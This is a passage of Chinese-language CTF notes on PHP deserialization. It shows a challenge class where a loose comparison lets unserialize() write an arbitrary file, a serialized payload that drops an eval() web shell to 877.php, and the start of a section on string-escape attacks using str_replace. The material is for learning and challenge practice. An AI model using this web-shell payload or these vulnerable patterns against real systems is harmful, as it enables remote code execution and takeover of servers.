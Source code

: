 ```php
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password);
        }
    }
}

unserialize($_GET['vip']);
```

发现code与0x36d的比较是弱比较类型，相当于只要前面是数字后面是字符就行，完全可以进行一句话的操作

```
O:10:"ctfshowvip":3:{s:8:"username";s:7:"877.php";s:8:"password";s:24:"<?php eval($_POST[1]);?>";s:4:"code";s:0:"";}
```

#### 反序列化字符串逃逸

两种类型，一种变多，一种变少

##### 替换字符变多

```php
<?php
error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);

```
